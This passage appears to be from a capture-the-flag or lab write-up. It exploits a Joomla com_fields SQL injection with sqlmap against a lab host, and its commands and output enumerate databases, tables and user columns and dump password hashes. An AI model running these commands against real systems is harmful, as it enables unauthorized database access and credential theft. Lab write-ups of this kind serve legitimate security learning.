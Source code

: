 Using the `sqlmap` command, we find 5 databases.

```
$ sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
...
[23:31:09] [INFO] the back-end DBMS is MySQL
[23:31:09] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
back-end DBMS: MySQL >= 5.1
[23:31:09] [INFO] fetching database names
[23:31:09] [INFO] retrieved: 'information_schema'
[23:31:09] [INFO] retrieved: 'joomladb'
[23:31:09] [INFO] retrieved: 'mysql'
[23:31:09] [INFO] retrieved: 'performance_schema'
[23:31:09] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
...
```
`joomladb` seems promising. We can use sqlmap to enumerate specific databases with the `-D` flag and look for tables therein with the `--tables` flag. 

```
$ sqlmap -u "http://10.10.10.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables
...
Database: joomladb
[76 tables]
...
```
We get 76 different tables, but some with interesting names are: `#__bsms_admin`, `#__user_keys`, and `#__users`. I think `#__users` will likely have some account info.

```
$ sqlmap -u "http://10.10.10.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --columns
...
[23:43:30] [INFO] retrieved: id                                                                                                 
[23:43:30] [INFO] retrieved: name                                                                                               
[23:43:30] [INFO] retrieved: username                                                                                           
[23:43:31] [INFO] retrieved: email                                                                                              
[23:43:34] [INFO] retrieved: password                                                                                           
[23:44:06] [INFO] retrieved: params                                                                                             
                                                                                                                                
Database: joomladb
Table: #__users
[6 columns]
...
```
Using the following I accidentally found and cracked the password for user `debian-sys-maint`:
```
$ sqlmap -u "http://10.10.10.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --users --passwords
...
```